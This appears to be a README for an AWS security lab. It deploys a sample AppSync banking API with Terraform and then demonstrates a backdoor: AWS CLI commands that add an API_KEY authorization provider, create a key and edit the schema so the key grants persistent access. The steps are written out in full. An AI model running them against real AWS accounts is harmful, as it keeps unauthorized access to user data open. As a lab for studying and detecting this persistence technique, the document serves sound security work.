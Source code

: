 # AppSync - Backdooring with API Keys

## Overview

This setup deploys an AWS AppSync service, utilizing AWS IAM as the default authentication mode and featuring an additional endpoint authenticated via AWS Cognito. The scenario, inspired by an AWS tutorial [DynamoDB Transaction resolvers](https://docs.aws.amazon.com/appsync/latest/devguide/tutorial-dynamodb-transact-js.html), simulates specific banking functionalities

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```
4. **Create Cognito users**: Access the AWS console, go to AWS Cognito and create a few users.


5. **Populate data in DynamoDB**:

Acces the AWS console, go to AWS AppSync and using the query option, execute the following mutation. Making sure to use the sub from Cognito as account name:

```mutation populateAccounts {
  populateAccounts (
    savingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 100},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 90},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 80},
    ]
    checkingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 70},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 60},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 50},
    ]) {
    savingAccounts {
      accountNumber
    }
    checkingAccounts {
      accountNumber
    }
  }
}```


## Attacking the Infrastructure

Add a new authorization provider, making sure to keep the existing ones. In our specific scenario, we need to keep AWS_IAM as the default authentication type and add API_KEY as an extra authentication provider, making sure we keep the configuration from the Cognito provider.

```
aws appsync update-graphql-api --api-id API_ID --name API_NAME --authentication-type AWS_IAM --additional-authentication-providers '[{"authenticationType": "AMAZON_COGNITO_USER_POOLS", "userPoolConfig": {"userPoolId": "USER_POOL_ID", "awsRegion": "us-east-1", "appIdClientRegex": "APP_ID_CLIENT_REGEX" }},{"authenticationType":"API_KEY"}]'
```

2. Generate an API Key

```
aws appsync create-api-key --api-id API_ID
```

3. Modify the schema and add the directive @aws_api_key, ensuring that the default directive @aws_iam is added when needed to avoid breaking the application. To do this, download the current schema:

```
aws appsync get-introspection-schema --api-id API_ID --format SDL schema.graphql
```

4. Edit the schema and then encode it in base64
```
base64 schema.graphql > schema_base64.txt
```

5. Lastly, add the new schema

```
aws appsync start-schema-creation --api-id API_ID --definition file://schema_base64.txt
```

## Understanding the Attack

Upon successfully adding an API key to the AWS AppSync service, an attacker gains a persistent and unauthorized entry point, allowing them to request data or perform modifications by utilizing the new API key in their requests. This not only enables the extraction of existing data within the API but also potentially allows access to data from new users in the future, maintaining an ongoing threat until the illicit API key is identified and removed. 

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.
